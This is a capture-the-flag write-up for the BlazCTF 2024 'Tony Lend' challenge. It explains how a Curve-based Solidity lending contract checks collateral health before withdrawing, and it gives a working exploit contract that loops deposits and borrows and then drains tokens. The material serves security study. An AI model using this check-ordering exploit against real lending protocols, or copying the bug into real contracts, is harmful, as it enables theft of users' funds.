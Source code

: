 # Tony Lend

> [!NOTE]  
> Medium  
> Source: https://github.com/fuzzland/blazctf-2024/tree/main/tony-lend

The Tony Lend challenge was based on a relatively simple [curve.fi](https://curve.fi/)-based lending protocol implemented in Solidity.
`TonyLend.sol` allowed borrowing one of two assets while having these assets deposited as collateral in the protocol,
which is why the challenge initially seemed to require manipulating the `Curve` pool-based price oracle,
but in reality contained a bug which allowed to bypass the collateral check when withdrawing.
The challenge description contains nothing useful for solving it:

> Tony eats cats and dogs, and builds lending platform that competes with Trump's cryptocurrency.

## TLDR

`TonyLend`'s `withdraw` method calls `calculateHealthFactor` and checks the result **before** performing the withdrawal calculations,
allowing a user to pass the collateral check and then withdraw all of their deposited funds,
the necessary amount of which can be amassed by continuously borrowing and depositing assets.
Tony Lend 2 contained a fix of the `withdraw` bug, and required exploitation of the `Curve` StableSwap-NG Oracle vulnerability.

## Analysis

Tony Lend was one of the more complex challenges in the CTF in terms of setup,
containing multiple steps with lots of different contracts being initialized.
We can start unwinding the challenge from the other side, however,
by looking at `Challenge.sol`'s `isSolved` implementation, and figuring out how we
can get it to count the challenge as solved:

```solidity
function isSolved() external view returns (bool) {
    return usde.balanceOf(address(0xc0ffee)) >= 21926 ether;
}
```

`usde` here is an OpenZeppelin-based `ERC20` token with 18 decimals,
with `1e6` (1 million) tokens of total supply minted when it is initialized in the `Challenge` contract.
`9e5` of these tokens are added as the base liquidity for a `Curve` StableSwap-NG plain pool,
and `8e4` are transferred to the `TonyLend` lending protocol for it to be able to function.
The only other holder of `usde` is the `Challenge` contract itself,
and there's no way besides the additional `claimDust` method to transfer it anywhere else:

```solidity
function claimDust() external {
    require(!claimed, "Already claimed");
    claimed = true;
    usde.transfer(msg.sender, 1e4 ether);
    usdc.transfer(msg.sender, 1e4 * 1e6);
}
```

Judging by what we know now, there's an easy way we can get approximately `20000 ether` worth of `usde`:
`10000` are transferred to us by `claimDust`, and then we can swap `10000 usdc` for `usde` using the `swap` method.
This, however, still leaves us `1926 ether` worth of `usde` short.
Knowing this, lets move on to analyzing the `TonyLend` protocol,
since it's one of the two systems holding `usde` in the challenge,
and trying to exploit `Curve` straight away doesn't make sense.

`TonyLend` contains two places where tokens are `transfer`red from it to the user,
and two places where tokens are `transferFrom`ed to it: `withdraw`/`borrow` and
`deposit`/`repay`, respectively. Both `withdraw` and `borrow` contain "health factor"
checks to validate that the user's deposited "collateral" assets will be enough to cover
the borrowed assets after the operation is complete. The health factor calculation is pretty straightforward, and consists of simply summing the deposited and borrowde assets'
values:

```solidity
function calculateHealthFactor(address _user) public view returns (uint256) {
    uint256 totalCollateralInEth = 0;
    uint256 totalBorrowedInEth = 0;

    for (uint256 i = 0; i < assetCount; i++) {
        Asset storage asset = assets[i];
        UserAccount storage account = userAccounts[_user];

        uint256 collateralInEth = account.deposited[i] * getAssetPrice(i);
        uint256 borrowedInEth = account.borrowed[i] * getAssetPrice(i);

        totalCollateralInEth += collateralInEth;
        totalBorrowedInEth += borrowedInEth;
    }

    if (totalBorrowedInEth == 0) {
        return type(uint256).max;
    }

    return totalCollateralInEth * PRECISION / totalBorrowedInEth;
}
```

However, while `borrow`
calculates this value via `calculateHealthFactor` **after** performing the operation,
`withdraw` does it **before**, meaning that we can practically `withdraw` all our assets
if our account is originally in a "healthy" state without too many borrowed assets.

This bug can be exploited in a pretty funny way: we can continuously `borrow` and `deposit`
the same asset over and over again, and once we accrue enough `usde`, we can just `withdraw` it all and send it to `0xc0ffee`.

## Solution

Writing the solution script is relatively simple, since we do not need to carefully
calculate the exact amounts of anything, and can instead just operate with our whole `usde` balance. Since multiple consecutive actions are required, its better to run
them in a single transaction using a contract:

```solidity
contract SolveContract {
    uint256 constant USDE_DECIMALS = 1e18;
    uint8 constant USDE_INDEX = 0;

    constructor(Challenge challenge) {
        challenge.claimDust(); // 1. Get 1e4 of each token

        TonyLend tonyLend = challenge.tonyLend();
        ICurve curvePool = challenge.curvePool();
        ERC20 usde = challenge.usde();

        usde.approve(address(curvePool), type(uint256).max);
        usde.approve(address(tonyLend), type(uint256).max);

        // 2. Deposit and borrow USDE since different variables account for borrowed and deposited amounts.
        for (uint256 i = 0; i < 3; i++) {
            uint256 balance = usde.balanceOf(address(this));
            tonyLend.deposit(USDE_INDEX, balance);
            tonyLend.borrow(USDE_INDEX, balance);
        }

        // 3. Withdraw all thanks to the health factor check bug.
        tonyLend.withdraw(USDE_INDEX, 21926 * USDE_DECIMALS); // value taken from isSolved()
        usde.transfer(address(0xc0ffee), usde.balanceOf(address(this)));

        selfdestruct(payable(msg.sender));
    }
}
```

The full solution script is available in the [./Solve.s.sol](./Solve.s.sol) file.
Running it requires specifying the actual script contract using the `--tc Solve` `forge` flag.

![Flag captured](flag.png)
